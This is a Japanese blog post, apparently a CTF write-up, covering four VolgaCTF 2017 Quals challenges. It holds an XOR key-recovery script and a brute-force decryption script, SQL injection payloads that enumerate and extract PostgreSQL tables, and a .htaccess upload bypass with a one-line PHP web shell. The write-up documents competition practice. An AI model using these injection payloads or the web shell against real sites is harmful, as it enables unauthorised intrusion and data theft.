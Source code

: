 ```yaml
---
layout: post
title: VolgaCTF 2017 Quals の write-up
categories: [ctf]
date: 2017-03-28 02:04:00 +0900
---
```


チーム Harekaze で [VolgaCTF 2017 Quals](https://quals.2017.volgactf.ru/) に参加しました。最終的にチームで 1050 点を獲得し、順位は 61 位 (得点 677 チーム中) でした。うち、私は 3 問を解いて 450 点を入れました。

以下、解いた問題の write-up です。

## [Crypto/Reverse 150] PyCrypto

`pycryptography.so` と `encrypt.py` が渡されます。

`from pycryptography import encrypt` のように import して `encrypt(b'ABCD', b'EFGH')` を実行してみると `b'\x04\x04\x04\x0c'` が返ってきました。xor です。

あとは

```python
def xor(a, b):
  res = ''
  if len(a) < len(b):
    a, b = b, a
  for k, c in enumerate(a):
    res += chr(ord(c) ^ ord(b[k % len(b)]))
  return res

s = open('flag.enc', 'rb').read()
k = '\x94\xffc\xa3\x8du\xd8\xc4\x1a\xc1\xca$\x1ef\x0c\x1f\xc6\xe2\xcc\xea'

for block in [s[x:x+20] for x in range(0, len(s), 20)]:
  print repr(xor(block, k)), repr(block)

print repr(xor(s, k))
```

というようなスクリプトを書いて、平文を推測しながら少しずつ鍵を特定しました。

```
VolgaCTF{N@me_is_Pad_Many_Times_P@d_Mi$$_me?}
```

## [Reverse 100] KeyPass

`keypass` という x86_64 の ELF と `flag.zip.enc` という暗号化された zip が渡されます。

`./keypass abcd` を実行すると `wvUauol2)+ot+>Q+v` が出力されました。問題文によると `flag.zip.enc` は OpenSSL 1.1.0e を使って、`keypass` で出力された文字列を鍵に aes-128-cbc で暗号化されたようです。

`keypass` を見てみると、どうやら

```
  4004e8:       48 0f be 07             movsx  rax,BYTE PTR [rdi] # rdi == argv[1]
  4004ec:       48 83 c7 01             add    rdi,0x1
  4004f0:       48 31 c2                xor    rdx,rax
  4004f3:       48 39 cf                cmp    rdi,rcx
  4004f6:       75 f0                   jne    4004e8 <__libc_start_main@plt+0x68>
```

と結局鍵は 256 通りに絞られてしまうようです。

あとは

```c
#include <stdio.h>
#include <unistd.h>
int main(int argc, char **argv) {
  int i;
  char s[2] = {0};
  s[0] = atoi(argv[1]);
  execl("./keypass", "./keypass", s);
  return 0;
}
```

これを `gcc a.c -o a` でコンパイルして

```python
from subprocess import *
for x in range(256):
  pwd = check_output(['./a', str(x)]).strip()
  try:
    p = Popen(['openssl', 'aes-128-cbc', '-d', '-in', 'flag.zip.enc', '-pass', 'pass:%s' % pwd], stdin=PIPE, stdout=PIPE, stderr=PIPE)
    stdout, stderr = p.communicate()
    if 'PK' in stdout:
      open('flag.zip', 'wb').write(stdout)
  except Exception as e:
    print e
```

を実行すると `flag.zip.enc` を復号できました。

```
VolgaCTF{L0ve_a11_trust_@_few_d0_not_reinvent_the_wh33l}
```

## [Web 100] Bloody Feedback

与えられた URL にアクセスすると、名前とメールアドレスとメッセージを送ることができるフォームが表示されました。

適当に入力すると `JE5FbsE93ewj1CeH1Ked4ocewS4YcLe6` という感じのコードが発行されました。これを使ってメッセージが処理されたかどうかのステータスを見ることができるようです。が、どれだけ待ってもステータスは `not processed` から変わりません。

試しにメールアドレスに `'` を入力してみると

```
ERROR: DBD::Pg::db do failed: ERROR: syntax error at or near "not" LINE 1: ...c2ccXSfdWxhzPUwrREWp92HVq7UZ3','hoge','fuga',''','not proces... ^ at Worker.pm  line 29.
```

というエラーが発生しました。どうやら insert 文で SQLi ができるようです。また、`DBD::Pg::db` から DB が PostgreSQL であることが分かりました。

メールアドレスに `',  (select table_name from information_schema.tables limit 1 offset 1));--` を入力すると `s3cret_tabl3` と出力されました。  
また、`',  (select column_name from information_schema.columns where table_name like 's3cret_tabl3' limit 1));--` で `s3cret_tabl3` は `s3cr3tc0lumn` というカラムを持つと分かりました。

あとは `,  (select s3cr3tc0lumn from s3cret_tabl3 limit 1 offset 4));--` でフラグが表示されました。

```
VolgaCTF{eiU7UJhyeu@ud3*}
```

## ([Web 200] Share Point)

与えられた URL にアクセスすると、ファイルのアップロードができ、さらにそれを他のユーザと共有できる Web サービスが動いていました。

いろいろ試していると拡張子が `php` や `html` だとアップロードできない様子でした。

ですが、`.htaccess` はアップロードできるようです。

```
AddHandler php5-script .hoge
```

という内容の `.htaccess` というファイルと

```php
<?php passthru($_GET['cmd']);
```

という内容の `a.hoge` というファイルをアップロードすると、`a.hoge?cmd=ls` のようにして任意の OS コマンドが実行できるようになりました。

どこにフラグがあるか延々悩んでいたのですが、[@zeosutt](https://twitter.com/zeosutt) さんが `/opt/flag.txt` にフラグを見つけていました。
